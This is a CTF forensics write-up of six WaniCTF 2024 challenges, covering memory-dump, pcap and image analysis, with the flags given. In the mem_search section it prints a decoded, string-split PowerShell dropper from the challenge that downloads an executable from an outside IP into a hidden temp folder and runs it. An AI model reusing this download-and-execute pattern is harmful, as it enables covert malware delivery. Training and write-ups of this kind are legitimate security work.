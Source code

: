 ```yaml
---
layout: post
title: WaniCTF
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "WanCTFs 2024"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```


# WaniCTF
[All the challenges](https://drive.google.com/drive/folders/1n-0bDNWddJO4AJDAYqCwFduhcAZgcK61?usp=sharing)

---
## Tiny_usb
### Beginner

![image](https://hackmd.io/_uploads/SyY35WBIC.png)

The challenge gave us a iso file, just extract it and you will get a flag.

![FLAG](https://hackmd.io/_uploads/HJqQ5-HIR.png)

---
## Surveillance_of_sus
### Normal
![image](https://hackmd.io/_uploads/SJNCcbSI0.png)

The challenge gave us a bin file so I will strings it out first

![image](https://hackmd.io/_uploads/S1Jd2bH8C.png)

I found out that its a RDP8Bmp so I will be using this **[tool](https://github.com/ANSSI-FR/bmc-tools)** to extract it https://github.com/ANSSI-FR/bmc-tools

![image](https://hackmd.io/_uploads/Hk4UR-BIR.png)

![image](https://hackmd.io/_uploads/ByyqCbS8R.png)
and you will get the flag.

![image](https://hackmd.io/_uploads/H1OeyGrI0.png)
You can try to fix it by yourself or just guess the word and submit it.

---
## tiny_10px
### Normal

![image](https://hackmd.io/_uploads/ryDm7GB80.png)
The challenge gave us a small picture

![chal_tiny_10px](https://hackmd.io/_uploads/B1Y6QMHU0.jpg)  **<--------------this is the image lol**

Based on the name of the challenge  "Tiny_10px" and size, how can this tiny piece of image can be over 44kbs?

![image](https://hackmd.io/_uploads/rJzsEzrIR.png) 

So its must be Height and Widgth Steganography and its a JPG

![image](https://hackmd.io/_uploads/ByLHHzBL0.png)

Do it by yourself by modifying the Hex bytes!
You may get this kind of result: 

![8](https://hackmd.io/_uploads/S10IIGB8R.jpg)
you can you editor or paint to get the flag, anyway here is the final flag 

![fixed](https://hackmd.io/_uploads/ryn4YMr8C.jpg)

---
## mem_search
### Hard

![image](https://hackmd.io/_uploads/rkPbiGS8R.png)

The challenge gave us a DUMP file, so I will be using volatility to solve this, its also told us that the user found an unknown file so I will be checking the download folder first.

![image](https://hackmd.io/_uploads/Sk3z2GSLR.png)

after checking the download I found there a suspicous file thats is "**read_this_as_admin.download**" so I dump it right away

![image](https://hackmd.io/_uploads/BJSLaMH80.png)

The file connect the user to a website and download a file, so I will search for that file then read it again.

![image](https://hackmd.io/_uploads/HJBC6MSUC.png)
![image](https://hackmd.io/_uploads/BkbfCzHL0.png)

The file seem to be executing a powershell script after decode the string here the result:

```
$u='ht'+'tp://192.168.0.16:8282/B64_dec'+'ode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_s'+'.arch.e'+'.xe';$t='Wan'+'iT'+'.mkdir -force $env:TMP\\.$t;try{iwgr -OutFile $d\\msedg.exe;& $d\\msedg.exe;}catch{}

```
```
URL: **http://192.168.0.16:8282/B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_search.exe**
Assigns the directory $env:TMP\\WanIT
```
Its attempts to download the file **msedge.exe** from the URL into the directory and then executes it.
so we know the malware name, its **"msedge.exe"** so I need search then dump it out.

![image](https://hackmd.io/_uploads/B18L1QH80.png)

throw it in [TotalVirus](https://www.virustotal.com/gui/home/upload), here the result:

![image](https://hackmd.io/_uploads/SkFjkmSIA.png)

**Its reversing time!**

![image](https://hackmd.io/_uploads/BkHyGQB8A.png)

The first thing that catch my eye is the fake flag lol
FLAG{Hacked_yikes_spooky}
Anyway after analyze the whole malware its lead me to nothing so we need to take a step back to look for more clue then I notice something weird with the link

**`B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==`**
why does it has the part "B64_decode_....", then I tried decode the latter part and got the Flag:
### **FLAG{Dayum_this_is_secret_file}**


---
## I_wanna_be_a_streamer
### Normal

![image](https://hackmd.io/_uploads/BJ5TmoSU0.png)

The challenge gave us a pcap file

![image](https://hackmd.io/_uploads/SJfFEoBUC.png)
 
As you can see in the rex box, the user connect to a Camera using RTP protocol

![image](https://hackmd.io/_uploads/SJ50NirUR.png)
 
after reading tons and tons of articles about RTP protocol
 
![image](https://hackmd.io/_uploads/SyIzBoHLR.png)

I finally found a way to solve this challenge
 
*  First install this plugin for your wireshark 
 **------>https://github.com/volvet/h264extractor<------**
*  open wireshark > Analyze > Decode as > add > RTP ( or RTP payload smth) > Edit > Preferences > Protocol > H.264 (type == 96) > Menu > Tools > Extract h264 stream from RTP
*  ffmpeg -i file_extracted -c copy flag.mp4
 
![image](https://hackmd.io/_uploads/ByGMPiSL0.png)

---
## Codebreaker
### Beginner (I hate this chall)

![image](https://hackmd.io/_uploads/H11vOiSLC.png)

the chall gave us a qrcode but got broken

![chal_codebreaker](https://hackmd.io/_uploads/SyK9_oHUC.png)

Just like one of the challenge that I already done 
------>https://hackmd.io/v3qpKEIWT1-aZbWrkaS2Ig (sr I wrote it in Vietnamese)
I reconstructed the Qrcode by replacing the 3 corner first

![image](https://hackmd.io/_uploads/ByCMKirUC.png)

then I got the flag lmao, I got bad luck cause I have done a lots when I say a lots I really mean it, it cost me hours.
### FLAG{How_scan-dalous}

![image](https://hackmd.io/_uploads/SJwjKjBLR.png)
Okay Mikka thanks for the challs anyway whats a fun CTFs to play